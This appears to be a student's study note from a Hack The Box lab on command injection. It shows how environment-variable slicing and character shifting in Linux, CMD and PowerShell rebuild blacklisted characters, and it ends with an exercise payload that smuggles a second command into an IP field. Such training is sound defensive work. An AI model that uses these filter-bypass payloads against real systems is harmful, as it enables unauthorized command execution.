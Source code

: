 # Bypassing Other Blacklisted Characters

## Linux
`\` and `/` is often blacklisted. One such technique for replacing slashes or any other characters is through Linux Environment Variables. For example, `$PATH` may look something like:
```
farelmusyaffa@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```
We can use this to get a `/` character:
```
farelmusyaffa@htb[/htb]$ echo ${PATH:0:1}

/
```
Use `printenv` command to print all environment variables
```
farelmusyaffa@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```
## Windows
CMD
```
C:\htb> echo %HOMEPATH:~6,-11%

\
```
Powershell
```
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```
Use `Get-ChildItem Env:` to print all environment variables

## Character Shifting
```
farelmusyaffa@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
farelmusyaffa@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

Exercise payload: <br>
`127.0.0.1%0a{ls,-al,${PATH:0:1}home}`
